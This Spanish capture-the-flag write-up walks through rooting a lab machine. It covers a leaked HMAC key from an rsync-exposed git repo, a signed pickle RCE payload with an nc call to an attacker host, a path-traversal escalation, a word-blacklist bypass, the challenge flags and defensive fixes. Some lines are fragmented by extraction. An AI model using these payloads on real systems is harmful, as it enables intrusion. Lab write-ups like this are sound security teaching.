

Host vivo (TTL 64 → Linux). Tres servicios; rsync y el daemon propietario son los interesantes.
$ nmap -p- --min-rate 3000 -T4 -Pn 192.168.1.25 22/tcp open ssh OpenSSH 10.2p1 Ubuntu 2ubuntu3.6 873/tcp open rsync (protocol version 32) 65432/tcp open unknown | AEGIS CORE TELEMETRY NODE — AegisProto/2.4 (HMAC-SHA256)
El módulo backup es accesible sin credenciales y trae el cliente con su repo .git.
$ rsync --list-only rsync://192.168.1.25/ backup Aegis Core Deployment and Client Utilities $ rsync -av rsync://192.168.1.25/backup/ loot/ README.txt aegis-client-v2.1.tar.gz $ git log --oneline --all b56146a Security: remove hardcoded HMAC secret key # ← demasiado tarde 6db9a8e Initial release $ git show b56146a - HMAC_SECRET = b"Aeg1s-C0r3-P4ck3t-S1gn-2026!" + HMAC_SECRET = os.environ.get("AEGIS_SECRET_KEY","").encode()
Clave HMAC: Aeg1s-C0r3-P4ck3t-S1gn-2026! · El cliente revela import pickle y el formato de trama [4B len][32B HMAC-SHA256][pickle].
El daemon verifica el HMAC y luego hace pickle.loads(). Con la clave, un objeto con __reduce__ ejecuta comandos al deserializarse.
class RCE: def __reduce__(self): return (os.system, (cmd,)) payload = pickle.dumps(RCE()) sig = hmac.new(HMAC_SECRET, payload, sha256).digest() packet = struct.pack("!I", len(payload)) + sig + payload # HMAC válido ⇒ deserializa
$ python3 aegis_rce.py 192.168.1.25 65432 'id | nc -w3 192.168.1.30 4445' [+] Authentication successful. Deserializing command packet... uid=1001(operator) gid=37(operator) groups=37(operator)
→ Ejecución de código como operator. Su README apunta al socket /run/netmon/netmon.sock.
El servicio NetMon corre como adrian, acepta RUN <script> y valida la ruta con startswith("/opt/scripts/") — evadible con ../.
if not script_path.startswith(ALLOWED_DIR): # no resuelve la ruta real deny() subprocess.run(["/bin/bash", script_path]) # corre como adrian
# payload en /dev/shm (escribible por operator), traversal por el socket: RUN /opt/scripts/../../dev/shm/.m.sh [*] Executing ... under UID 1002... uid=1002(adrian) groups=1002(adrian),37(operator) HMV{14e1fbea8f8a571b7dff473d102521dd} # 🏁 user.txt
source Criticaladrian tiene sudo NOPASSWD sobre aegis-backup, que hace source de la config tras una lista negra de palabras trivialmente evitable.
FORBIDDEN='(bash|sh|nc|python|perl|eval|exec|sudo|chmod|chown|rm|mkfifo)' grep -qE "$FORBIDDEN" "$CONFIG" && exit 1 source "$CONFIG" # ejecuta bash arbitrario como root
id cat /root/root.txt TARGET_DIR=/tmp OUTPUT_FILE=/dev/null # ojo: evitar "sh" → nada de /dev/shm en el config $ sudo /usr/local/bin/aegis-backup -c /tmp/.cfg uid=0(root) gid=0(root) groups=0(root) HMV{ca323257ea9f900f5e38fefa0ccabcd6} # 👑 root.txt
Módulo backup → repo .git → clave HMAC hardcodeada.
Objeto firmado con la clave; __reduce__ → os.system.
startswith evadido con ../ en el socket NetMon.
Lista negra de palabras evitable en el config que se hace source.
auth users, hosts allow) y no empaquetar .git. Rotar la clave HMAC: sigue viva en el histórico.pickle; usar JSON/MessagePack. El HMAC autentica, pero no frena un payload malicioso correctamente firmado.os.path.realpath() + commonpath, o mejor allow-list de nombres — nunca comparación de prefijo.source de ficheros controlables; parsear clave=valor con un lector estricto. Las listas negras de palabras no son una frontera de seguridad.